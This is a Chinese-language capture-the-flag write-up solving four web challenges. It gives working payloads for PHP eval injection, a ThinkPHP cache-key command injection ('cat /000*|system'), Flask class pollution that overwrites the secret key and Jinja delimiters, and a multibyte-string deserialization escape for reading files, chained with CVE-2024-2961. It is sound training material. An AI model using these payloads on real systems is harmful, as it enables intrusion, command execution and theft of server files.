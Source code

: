 ## CodeInject
```PHP
<?php  
  
#Author: h1xa  
  
error_reporting(0);  
show_source(__FILE__);  
  
eval("var_dump((Object)$_POST[1]);");
```


```
1=scandir('/')
1=file_get_contents('/000f1ag.txt')
```

## tpdoor

一个很像后门的写法
![](attachments/Pasted%20image%2020240708222439.png)


```PHP
    protected function parseCacheKey($request, $key)
    {
        if ($key instanceof Closure) {
            $key = call_user_func($key, $request);
        }

        if (false === $key) {
            // 关闭当前缓存
            return;
        }

        if (true === $key) {
            // 自动缓存功能
            $key = '__URL__';
        } elseif (str_contains($key, '|')) {
            [$key, $fun] = explode('|', $key);
        }

        // 特殊规则替换
        if (str_contains($key, '__')) {
            $key = str_replace(['__CONTROLLER__', '__ACTION__', '__URL__'], [$request->controller(), $request->action(), md5($request->url(true))], $key);
        }

        if (str_contains($key, ':')) {
            $param = $request->param();

            foreach ($param as $item => $val) {
                if (is_string($val) && str_contains($key, ':' . $item)) {
                    $key = str_replace(':' . $item, (string) $val, $key);
                }
            }
        } elseif (str_contains($key, ']')) {
            if ('[' . $request->ext() . ']' == $key) {
                // 缓存某个后缀的请求
                $key = md5($request->url());
            } else {
                return;
            }
        }

        if (isset($fun)) {
            $key = $fun($key);
        }

        return $key;
    }
```

主要是这里的切分

![](attachments/Pasted%20image%2020240708222644.png)

payload
```
index.php?s=/index/index&isCache=cat%20/000*|system
```

重复打就行


## easy_polluted
原型链污染

```PYTHON
from flask import Flask, session, redirect, url_for,request,render_template  
import os  
import hashlib  
import json  
import re  
def generate_random_md5():  
    random_string = os.urandom(16)  
    md5_hash = hashlib.md5(random_string)  
  
    return md5_hash.hexdigest()  
def filter(user_input):  
    blacklisted_patterns = ['init', 'global', 'env', 'app', '_', 'string']  
    for pattern in blacklisted_patterns:  
        if re.search(pattern, user_input, re.IGNORECASE):  
            return True  
    return Falsedef merge(src, dst):  
    # Recursive merge function  
    for k, v in src.items():  
        if hasattr(dst, '__getitem__'):  
            if dst.get(k) and type(v) == dict:  
                merge(v, dst.get(k))  
            else:  
                dst[k] = v  
        elif hasattr(dst, k) and type(v) == dict:  
            merge(v, getattr(dst, k))  
        else:  
            setattr(dst, k, v)  
  
  
app = Flask(__name__)  
app.secret_key = generate_random_md5()  
  
class evil():  
    def __init__(self):  
        pass  
  
@app.route('/',methods=['POST'])  
def index():  
    username = request.form.get('username')  
    password = request.form.get('password')  
    session["username"] = username  
    session["password"] = password  
    Evil = evil()  
    if request.data:  
        if filter(str(request.data)):  
            return "NO POLLUTED!!!YOU NEED TO GO HOME TO SLEEP~"  
        else:  
            merge(json.loads(request.data), Evil)  
            return "MYBE YOU SHOULD GO /ADMIN TO SEE WHAT HAPPENED"  
    return render_template("index.html")  
  
@app.route('/admin',methods=['POST', 'GET'])  
def templates():  
    username = session.get("username", None)  
    password = session.get("password", None)  
    if username and password:  
        if username == "adminer" and password == app.secret_key:  
            return render_template("flag.html", flag=open("/flag", "rt").read())  
        else:  
            return "Unauthorized"  
    else:  
        return f'Hello,  This is the POLLUTED page.'  
  
if __name__ == '__main__':  
    app.run(host='0.0.0.0', port=5000)
```

unicode编码绕过filter

先污染secret_key
```
{ "__init__" : { "__globals__" : { "app" : { "secret_key" :"wum0nster"} } } }
```

![](attachments/Pasted%20image%2020240709111203.png)

把变量标识污染成`[#`和`#]` 

```
{
 "__init__" : {
	 "__globals__" : {
		 "app" : {
			 "jinja_env" :{
				"variable_start_string" : "[%","variable_end_string":"%]"
			} 
		 }
	 }
 }
```


## Ezzz_php

```PHP
<?php
highlight_file(__FILE__);
error_reporting(0);
function substrstr($data)
{
    $start = mb_strpos($data, "[");
    $end = mb_strpos($data, "]");
    return mb_substr($data, $start + 1, $end - 1 - $start);
}
class read_file{
    public $start;
    public $filename="/etc/passwd";
    public function __construct($start){
        $this->start=$start;
    }
    public function __destruct(){
        if($this->start == "gxngxngxn"){
           echo 'What you are reading is:'.file_get_contents($this->filename);
        }
    }
}
if(isset($_GET['start'])){
    $readfile = new read_file($_GET['start']);
    $read=isset($_GET['read'])?$_GET['read']:"I_want_to_Read_flag";
    if(preg_match("/\[|\]/i", $_GET['read'])){
        die("NONONO!!!");
    }
    $ctf = substrstr($read."[".serialize($readfile)."]");
    unserialize($ctf);
}else{
    echo "Start_Funny_CTF!!!";
}
```

mb_strpos与mb_substr对某些不可见字符的解析差异
[Joomla: PHP Bug Introduces Multiple XSS Vulnerabilities | Sonar (sonarsource.com)](https://www.sonarsource.com/blog/joomla-multiple-xss-vulnerabilities/)

![](attachments/Pasted%20image%2020240710210138.png)

每多一个9f 就往前逃逸一位，mb_strpos会忽略而mb_substr不会

```PHP
<?php
class read_file{
    public $start;
    public $filename="/etc/hosts";
    public function __construct($start){
        $this->start=$start;
    }
    public function __destruct(){
        if($this->start == "gxngxngxn"){
           echo 'What you are reading is:'.file_get_contents($this->filename);
        }
    }
}

$fer = "gxngxngxn";
$ser = serialize(new read_file($fer));
echo($ser);

```

`?start=aaaaaaaaqaaaa&read=%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9fO:9:"read_file":2:{s:5:"start";s:9:"gxngxngxn";s:8:"filename";s:10:"/etc/hosts";}`

配合CVE-2024-2961：将phpfilter任意文件读取提升为远程代码执行
[cnext-exploits/cnext-exploit.py at main · ambionics/cnext-exploits · GitHub](https://github.com/ambionics/cnext-exploits/blob/main/cnext-exploit.py)

![](attachments/Pasted%20image%2020240710215201.png)

send 函数这里稍微修改一下，改成get传参再url配置成上面
